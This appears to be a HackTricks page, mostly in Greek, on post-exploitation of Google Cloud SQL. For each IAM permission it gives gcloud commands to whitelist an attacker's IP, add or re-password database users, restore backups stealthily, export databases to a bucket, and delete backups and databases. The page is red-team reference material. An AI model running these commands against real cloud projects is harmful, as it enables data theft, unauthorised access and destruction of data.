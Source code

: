 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Για περισσότερες πληροφορίες σχετικά με το Cloud SQL, ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Για να συνδεθείτε στις βάσεις δεδομένων, **χρειάζεστε μόνο πρόσβαση στην θύρα της βάσης δεδομένων** και να γνωρίζετε το **όνομα χρήστη** και τον **κωδικό πρόσβασης**, δεν υπάρχουν απαιτήσεις IAM. Ένας εύκολος τρόπος για να αποκτήσετε πρόσβαση, υποθέτοντας ότι η βάση δεδομένων έχει δημόσια διεύθυνση IP, είναι να ενημερώσετε τα επιτρεπόμενα δίκτυα και **να επιτρέψετε τη δική σας διεύθυνση IP να έχει πρόσβαση σε αυτήν**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Είναι επίσης δυνατό να χρησιμοποιήσετε **`--no-backup`** για να **διαταράξετε τα αντίγραφα ασφαλείας** της βάσης δεδομένων.

Δεδομένου ότι αυτές είναι οι απαιτήσεις, δεν είμαι εντελώς σίγουρος ποια είναι τα δικαιώματα **`cloudsql.instances.connect`** και **`cloudsql.instances.login`**. Αν το ξέρετε, στείλτε μια PR!

### `cloudsql.users.list`

Λάβετε μια **λίστα με όλους τους χρήστες** της βάσης δεδομένων:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Αυτή η άδεια επιτρέπει να **δημιουργηθεί ένας νέος χρήστης μέσα** στη βάση δεδομένων:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Αυτή η άδεια επιτρέπει να **ενημερώνετε χρήστη μέσα** στη βάση δεδομένων. Για παράδειγμα, μπορείτε να αλλάξετε τον κωδικό πρόσβασής του:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Τα αντίγραφα ασφαλείας μπορεί να περιέχουν **παλιές ευαίσθητες πληροφορίες**, οπότε είναι ενδιαφέρον να τα ελέγξετε.\
**Ανακτήστε ένα αντίγραφο ασφαλείας** μέσα σε μια βάση δεδομένων:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Για να το κάνετε με πιο διακριτικό τρόπο, συνιστάται να δημιουργήσετε μια νέα SQL instance και να ανακτήσετε τα δεδομένα εκεί αντί για τις τρέχουσες βάσεις δεδομένων.

### `cloudsql.backupRuns.delete`

Αυτή η άδεια επιτρέπει τη διαγραφή αντιγράφων ασφαλείας:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Εξαγωγή μιας βάσης δεδομένων** σε ένα Cloud Storage Bucket ώστε να μπορείτε να την αποκτήσετε από εκεί:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Εισαγωγή μιας βάσης δεδομένων** (επικαλύπτει) από ένα Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Διαγράψτε μια βάση δεδομένων από την db instance:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
